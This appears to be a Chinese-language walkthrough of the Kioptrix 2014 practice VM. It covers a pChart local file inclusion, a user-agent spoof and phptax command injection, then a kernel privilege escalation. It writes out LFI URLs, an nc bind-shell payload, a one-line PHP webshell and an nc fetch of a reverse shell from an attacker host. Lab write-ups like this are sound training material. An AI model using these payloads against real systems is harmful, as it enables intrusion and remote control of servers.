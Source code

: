 # kioptrix2014

>页面源码信息利用
>
>useragent伪装
>
>freebsd apache22的设置文件位置
>
>webshell传输文件
>
>freebsd 9.0内核提权

常规扫描

得到结果80和8080

8080：

![image-20200608224821434](assets/Untitled.assets/image-20200608224821434.png)



80端口：

![image-20200608223742956](assets/Untitled.assets/image-20200608223742956.png)



源码中发现线索

![image-20200608223819494](assets/Untitled.assets/image-20200608223819494.png)

pChart2.1.3/index.php

搜索漏洞。

![image-20200608223906718](assets/Untitled.assets/image-20200608223906718.png)

发现可以利用文件包含

![image-20200608223941736](assets/Untitled.assets/image-20200608223941736.png)

验证：

```html
hxxp://localhost/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd
http://192.168.43.139/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd
```

![image-20200608224417067](assets/Untitled.assets/image-20200608224417067.png)

验证成功

根据线索查找设置文件

![image-20200608224702860](assets/Untitled.assets/image-20200608224702860.png)

![image-20200608231901171](assets/Untitled.assets/image-20200608231901171.png)

利用现有LFI查看设置文件

```bash
http://192.168.43.139/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf
```

找到8080端口所需要的useragent



![image-20200608232052099](assets/Untitled.assets/image-20200608232052099.png)

```bash
Mozilla/4.0 Mozilla4_browser
```

在firefox中利用插件伪装useragent

![image-20200608233129036](assets/Untitled.assets/image-20200608233129036.png)

成进入

![image-20200608233241443](assets/Untitled.assets/image-20200608233241443.png)

搜索漏洞，发现存在远程代码执行![image-20200608233401733](assets/Untitled.assets/image-20200608233401733.png)

![image-20200608233522894](assets/Untitled.assets/image-20200608233522894.png)

```BASH
192.168.43.139:8080/phptax/drawimage.php?pfilez=xxx;%20nc%20-l%20-v%20-p%2023235%20-e%20/bin/bash;&pdf=make
```

尝试按漏洞利用文件中描述的方法绑定shell，但是无法正确通讯

稳妥办法，写一个websehll先

```bash
http://192.168.43.139:8080/phptax/drawimage.php?pfilez=xxx;echo%20%22%3C?php%20system(%5C$_GET%5B%27m%27%5D);%20?%3E%22%20%3E%20evil.php;&pdf=make


echo "<?php system(\$_GET['m']); ?>" > evil.php
```

![image-20200609002905591](assets/Untitled.assets/image-20200609002905591.png)

然后通过webshell，上传php rshell

![image-20200609002705267](assets/Untitled.assets/image-20200609002705267.png)

![image-20200609002550470](assets/Untitled.assets/image-20200609002550470.png)

![image-20200609003011609](assets/Untitled.assets/image-20200609003011609.png)

由于目标机器wget不存在，利用webshell 控制nc传递文件

```bash
http://192.168.43.139:8080/phptax/evil.php?m=nc 192.168.43.66 1234 > reverse_shell.php
```

![image-20200609003422717](assets/Untitled.assets/image-20200609003422717.png)

![image-20200609003453814](assets/Untitled.assets/image-20200609003453814.png)

地址栏执行，得到shell

```bash
http://192.168.43.139:8080/phptax/reverse_shell.php
```

![image-20200609004256214](assets/Untitled.assets/image-20200609004256214.png)

常规检查发现内核版本，适合内核提权

![image-20200609004235936](assets/Untitled.assets/image-20200609004235936.png)

![image-20200609004453248](assets/Untitled.assets/image-20200609004453248.png)

没有wget，再次使用webshell 利用 nc传递过去

内核提权成功

